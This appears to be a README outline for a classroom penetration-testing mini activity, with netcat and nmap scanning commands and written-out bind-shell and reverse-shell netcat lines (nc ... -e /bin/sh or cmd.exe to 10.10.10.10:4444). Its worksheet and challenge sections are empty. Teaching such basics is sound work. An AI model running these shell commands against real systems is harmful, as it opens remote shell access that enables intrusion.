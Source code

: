 # Penetration Testing "Hacking" Activity

"Hacking" mini activity


* [Resources](#resources)
* [Lesson Plan](#lesson)
* [Worksheet](#worksheet)

<h2 id="resources">Resources</h2>

* Laptop
* Install nmap on all machines
* (Optional) Mobile device
* (Optional) Fing App
* (Optional) Termux

<h2 id="lesson">Lesson Plan</h2>

<h3>Shells</h3>

	ls/dir
	cd ..

<h3>Netcat</h3>

	nc -nvvv 10.10.10.10 80
	nc -nlvp 4444

<h3>Scanning</h3>

	nc -z -v 10.10.10.10 1-100
	nmap 10.10.10.10

<h3>Bind Shell</h3>

	nc -nlvp 4444 -e /bin/sh
	nc -nlvp 4444 -e cmd.exe

	nc -nvvv 10.10.10.10 4444

<h3>Reverse Shell</h3>

	ncat -nlvp 4444
	nc -nvvv 10.10.10.10 4444 -e /bin/sh 
	nc -nvvv 10.10.10.10 4444 -e cmd.exe

<h3>Challenge</h3>

<h2 id="worksheet">Worksheet</h2>

 
